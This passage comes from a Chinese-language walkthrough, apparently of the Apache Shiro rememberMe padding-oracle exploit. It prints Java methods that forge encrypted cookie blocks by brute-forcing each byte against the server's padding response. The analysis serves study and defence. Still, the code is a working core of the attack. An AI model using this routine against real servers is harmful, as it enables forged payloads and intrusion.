 传进来的参数是null，所以nextBLock的值是由random伪随机函数生成的，然后反转数组中的顺序

这里将分好块的payload带入到getBlockEncrypt方法中

```
privatebyte[] getBlockEncrypt(byte[] PlainTextBlock, byte[] nextCipherTextBlock) throws Exception `{`
byte[] tmpIV = newbyte[this.blockSize];
byte[] encrypt = newbyte[this.blockSize];
Arrays.fill(tmpIV, (byte) 0); //初始化tmpIVfor (int index = this.blockSize - 1; index &gt;= 0; index--) `{`
tmpIV[index] = this.findCharacterEncrypt(index, tmpIV, nextCipherTextBlock); //函数返回测试成功后的中间值
logger.debug(String.format("Current string =&gt; %s, the %d block", ArrayUtil.bytesToHex(ArrayUtil.mergerArray(tmpIV, nextCipherTextBlock)), this.encryptBlockCount));
`}`
 
for (int index = 0; index &lt; this.blockSize; index++) `{`
encrypt[index] = (byte) (tmpIV[index] ^ PlainTextBlock[index]); //中间值与明文块异或得到IV,也就是上一个加密块的密文
`}`
return encrypt;
`}`
```

将tmpIV全部初始为0，记住这里循环了blockSize次

接着往下跟this.findCharacterEncrypt()

```
private byte findCharacterEncrypt(int index, byte[] tmpIV, byte[] nextCipherTextBlock) throws Exception `{`
if (nextCipherTextBlock.length != this.blockSize) `{`
throw new Exception("CipherTextBlock size error!!!");
`}`
 
byte paddingByte = (byte) (this.blockSize - index); //本次需要填充的字节
byte[] preBLock = new byte[this.blockSize];
Arrays.fill(preBLock, (byte) 0);
 
for (int ix = index; ix &lt; this.blockSize; ix++) `{`
preBLock[ix] = (byte) (paddingByte ^ tmpIV[ix]); //更新IV
`}`
 
for (int c = 0; c &lt; 256; c++) `{`
//nextCipherTextBlock[index] &lt; 256，那么在这个循环结果中构成的结果还是range(1,256)
//所以下面两种写法都是正确的，当时看到原作者使用的是第一种方式有点迷，测试了下都可以
// preBLock[index] = (byte) (paddingByte ^ nextCipherTextBlock[index] ^ c);
preBLock[index] = (byte) c;
 
byte[] tmpBLock1 = Base64.getDecoder().decode(this.loginRememberMe); //RememberMe数据
byte[] tmpBlock2 = ArrayUtil.mergerArray(preBLock, nextCipherTextBlock); //脏数据
byte[] tmpBlock3 = ArrayUtil.mergerArray(tmpBLock1, tmpBlock2);
String remeberMe = Base64.getEncoder().encodeToString(tmpBlock3);
if (this.checkPaddingAttackRequest(remeberMe)) `{`
return (byte) (preBLock[index] ^ paddingByte); //返回中间值
`}`
`}`
throw new Exception("Occurs errors when find encrypt character, could't find a suiteable Character!!!");
`}`
```
